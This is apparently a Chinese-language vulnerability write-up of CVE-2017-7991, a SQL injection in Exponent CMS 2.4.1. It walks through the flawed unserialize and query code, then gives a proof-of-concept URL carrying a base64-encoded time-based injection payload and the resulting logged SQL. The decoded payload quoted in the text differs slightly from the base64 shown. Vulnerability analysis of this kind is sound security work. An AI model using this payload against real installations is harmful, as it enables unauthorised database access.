```yaml
---
title: '[CVE-2017-7991]Exponent CMS 2.4.1 SQL Injection分析'
date: 2017-05-12 07:42:07
tags: [代码审计,SQL注入,漏洞分析]
categories: Web安全
---
```


Exponent CMS是一款开源的CMS，其2.4.1版中存在sql注入
<!-- more -->
# 漏洞
注入点在 /framework/modules/eaas/controllers/eaasController.php 中。如下：

```php
public function api() {
	if (empty($this->params['apikey'])) {
		$_REQUEST['apikey'] = true;  // set this to force an ajax reply
		$ar = new expAjaxReply(550, 'Permission Denied', 'You need an API key in order to access Exponent as a Service', null);
		$ar->send();  //FIXME this doesn't seem to work correctly in this scenario
	} else {
		$key = expUnserialize(base64_decode(urldecode($this->params['apikey'])));
		$cfg = new expConfig($key);
		$this->config = $cfg->config;
		if(empty($cfg->id)) {
			$ar = new expAjaxReply(550, 'Permission Denied', 'Incorrect API key or Exponent as a Service module configuration missing', null);
			$ar->send();
		} else {
			if (!empty($this->params['get'])) {
				$this->handleRequest();
			} else {
				$ar = new expAjaxReply(200, 'ok', 'Your API key is working, no data requested', null);
				$ar->send();
			}
		}
	}
}
```

api()中，先检测参数`apikey`　是否为空，若不为空，则进入else分支。在分支中，先对参数`apikey`进行一次`urldecode`,接着进行 `base64_decode`,最后进行一次反序列化`expUnserialize`，在`expUnserialize`中存在一次小小的过滤：
```php
function expUnserialize($serial_str) {
    if ($serial_str === 'Array') return null;  // empty array string??
    if (is_array($serial_str) || is_object($serial_str)) return $serial_str;  // already unserialized
//    $out1 = @preg_replace('!s:(\d+):"(.*?)";!se', "'s:'.strlen('$2').':\"$2\";'", $serial_str );
    $out = preg_replace_callback(
        '!s:(\d+):"(.*?)";!s',
        create_function ('$m',
            '$m_new = str_replace(\'"\',\'\"\',$m[2]);
            return "s:".strlen($m_new).\':"\'.$m_new.\'";\';'
        ),
        $serial_str );
//    if ($out1 !== $out) {
//        eDebug('problem:<br>'.$out.'<br>'.$out1);
//    }
```

它会把 经过`base64_decode`后的`$apikey` 中的双引号加上斜杠。但是对于单引号，它没有进行处理。在进行`expUnserialize`之后，赋值给`$key`，并在之后实例化一个 `expConfig`对象。`expConfig`部分代码如下：

```php
class expConfig extends expRecord {
	protected $table = 'expConfigs';

	function __construct($params=null) {
		global $db;

        if (!is_array($params)) {
            $this->location_data = serialize($params);
            parent::__construct($db->selectValue($this->table, 'id', "location_data='".$this->location_data."'"));
        } else {
            parent::__construct($params);
        }
	....
```
在 framysqli\core\subsystems\database\mysqli.php 中，可以看到关于`selectValue`的定义：

```php
function selectValue($table, $col, $where=null) {
	if ($where == null)
		$where = "1";
	$sql = "SELECT " . $col . " FROM `" . $this->prefix . "$table` WHERE $where LIMIT 0,1";
	$res = @mysqli_query($this->connection, $sql);

	if ($res == null)
		return null;
	$obj = mysqli_fetch_object($res);
	if (is_object($obj)) {
		return $obj->$col;
	} else {
		return null;
	}
}
```

可以看到，在检查完`$params`是否是数组后，将我们传入的`$params`序列化后直接插入到了数据库查询语句中,未作任何过滤和检测。加上之前并未对单引号进行处理，因此我们可以利用单引号，对 `location_data='".$this->location_data."'` 中的单引号进行闭合。


# POC

```
http://localhost:2500/exponent241/index.php
?module=eaas
&action=api
&apikey=czoxNjoiYWFhJ29yIHNsZWVwKDIpIyI7
```
其中 base64_decode("czoxNjoiYWFhJ29yIHNsZWVwKDIpIyI7") = s:16:"aaa'or "'sleep(2)#

查看 mysql.log ，可以发现成功注入。
![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170512/sqlinject/1.jpg?raw=true)
运行的 sql语句 为：

```mysql
SELECT id FROM `exponent_expConfigs` WHERE location_data='s:19:"aaa'or \"'sleep(2)#";' LIMIT 0,1
```
可以看到单引号被成功闭合。
